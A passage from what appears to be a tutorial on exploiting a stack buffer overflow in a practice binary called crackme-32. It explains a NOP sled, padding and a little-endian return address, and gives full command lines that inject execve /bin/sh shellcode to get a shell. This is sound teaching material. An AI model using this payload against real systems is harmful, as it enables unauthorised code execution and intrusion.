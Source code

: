 We now need a shellcode. You can write it yourself or you can find one it fit your needs on [shell-strom](http://shell-storm.org/shellcode/files/shellcode-827.php).

So now have all we need, we will start by inserting some x90 instructions in the buffer. The x90 instruction is called a NOP, it corresponds to a single clock time for the processor. So if the program executes those instructions it will not do anything until it arrived to our shellcode, it is called a NOP sled. We now put our shellcode just after the NOP sled, and we complete the offset with some padding to arrive to the 140 bytes. Finally we put the buffer address we took just before (`0xffffd510`), do not forget to put it in little endian.

So it will look like that, 100 bytes (NOP sled) + 23 bytes (shellcode) + 17 (padding) + the buffer address in little endian.

```sh
gdb$ run $(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 17 + "\x10\xd5\xff\xff"')
```

We still on `gdb` so we get a shell but we do not have the possibility to use it.
So let's redo this command out of `gdb`.

```sh
$ ./crackme-32 $(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90" * 17 + "\x10\xd5\xff\xff"')
```

Here we go!! We got a shell.

<br>
![](https://media.makeameme.org/created/sounds-like-someone-5ab911.jpg){:class="img-responsive"}